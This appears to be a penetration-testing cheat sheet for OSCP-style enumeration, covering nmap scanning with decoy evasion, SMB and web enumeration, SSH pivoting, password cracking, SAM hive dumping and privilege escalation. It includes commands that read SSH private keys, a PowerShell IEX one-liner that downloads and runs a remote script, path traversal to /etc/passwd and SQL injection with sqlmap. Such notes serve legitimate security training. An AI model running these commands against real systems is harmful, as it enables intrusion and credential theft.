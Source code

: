 # Comprehensive Enumeration Notes

## **1. Network Enumeration**

### **1.1 Basic Network Scanning**
#### **Nmap Scans**
```bash
nmap -sC -sV -p- -oN full_scan.txt <target_ip>
```
- `-sC` : Runs default scripts
- `-sV` : Version detection
- `-p-` : Scans all 65535 ports
- `-oN` : Saves output

#### **Aggressive Scan**
```bash
nmap -A -T4 <target_ip>
```
- `-A` : Enables OS detection, script scanning, and traceroute
- `-T4` : Faster timing template

#### **Firewall Evasion**
```bash
nmap -f -D RND:5 <target_ip>
```
- `-f` : Fragment packets
- `-D RND:5` : Use 5 random decoys

### **1.2 SMB Enumeration**
```bash
smbmap -H <target_ip>
enum4linux -a <target_ip>
nmap --script smb-enum* -p 445 <target_ip>
```

---

## **2. SSH Enumeration & Exploitation**

### **2.1 Checking for SSH Keys**
```bash
ls -la ~/.ssh/
cat ~/.ssh/id_rsa
```

### **2.2 Generating SSH Keys**
```bash
ssh-keygen -t rsa -b 4096 -f my_key
```
- `-t rsa` : Specifies RSA key
- `-b 4096` : Bit length
- `-f my_key` : Output file

### **2.3 SSH Authentication**
```bash
ssh -i my_key user@<target_ip>
```

### **2.4 SSH Tunneling & Pivoting**
#### **Port Forwarding (Local to Remote)**
```bash
ssh -L 8080:localhost:80 user@<target_ip>
```
- Forwards local 8080 to remote 80

#### **Dynamic Proxy for Pivoting**
```bash
ssh -D 9050 user@<target_ip>
proxychains nmap -sT -Pn -n -p- target_internal_ip
```
- `-D 9050` : SOCKS proxy
- Use ProxyChains to route traffic

---

## **3. Web Enumeration**

### **3.1 Directory and File Enumeration**
```bash
gobuster dir -u http://<target_ip> -w /usr/share/wordlists/dirb/common.txt -x php,txt,html
ffuf -u http://<target_ip>/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

### **3.2 CMS Enumeration**
```bash
wpscan --url http://<target_ip> --enumerate u,p
```
#### **Joomla**
```bash
joomscan --url http://<target_ip> ```

---

## **4. Credential Dumping & Password Cracking**

### **4.1 Keepass2 (.kdbx) File Extraction**
```bash
keepass2john myfile.kdbx > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

### **4.2 SAM & SYSTEM Dumping (Windows)**
```powershell
reg save HKLM\SAM sam.save
reg save HKLM\SYSTEM system.save
```
```bash
secretsdump.py -sam sam.save -system system.save LOCAL
```

---

## **5. Privilege Escalation**

### **5.1 Linux Privilege Escalation**
```bash
sudo -l
find / -perm -4000 -type f 2>/dev/null
```

### **5.2 Windows Privilege Escalation**
```powershell
whoami /priv
winpeas.exe
```

---

## **6. Automated Enumeration Tools**

### **6.1 Linux PrivEsc**
```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

### **6.2 Windows PrivEsc**
```powershell
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEAS.bat')"
```

---

## **7. Fuzzing Techniques**
```bash
sqlmap -u "http://<target_ip>/index.php?id=1" --dbs
```
```bash
curl http://<target_ip>/?file=../../../../etc/passwd
```

---

## **Conclusion**
This **detailed enumeration cheat sheet** covers all necessary commands, tools, and techniques required for **network, web, SSH, tunneling, Keepass2, system enumeration, privilege escalation, and OSCP-level enumeration**. 🚀 Happy Hacking!

